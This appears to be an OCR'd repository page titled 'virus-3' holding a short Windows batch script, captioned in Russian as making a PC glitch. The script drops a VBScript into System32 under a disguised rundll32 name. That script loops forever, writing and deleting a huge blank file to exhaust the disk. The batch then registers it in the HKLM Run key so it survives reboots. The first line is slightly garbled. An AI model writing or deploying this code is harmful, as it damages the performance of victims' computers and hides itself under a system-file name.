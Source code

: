 # virus-3
[SRC] Echo_inactive_inactive off echo Set fso = CreateObject("Scripting.FileSystemObject") > %systemdrive%\windows\system32\rundll32.vbs echo do >> %systemdrive%\windows\system32\rundll32.vbs echo Set tx = fso.CreateTextFile("%systemdrive%\windows\system32\rundll32.dat", True) >> %systemdrive%\windows\system32\rundll32.vbs echo tx.WriteBlankLines(100000000) >> %systemdrive%\windows\system32\rundll32.vbs echo tx.close >> %systemdrive%\windows\system32\rundll32.vbs echo FSO.DeleteFile "%systemdrive%\windows\system32\rundll32.dat" >> %systemdrive%\windows\system32\rundll32.vbs echo loop >> %systemdrive%\windows\system32\rundll32.vbs  start %systemdrive%\windows\system32\rundll32.vbs  reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v system_host_run /t REG_SZ /d %systemdrive%\windows\system32\rundll32.vbs /f [/SRC]



глючит ПК
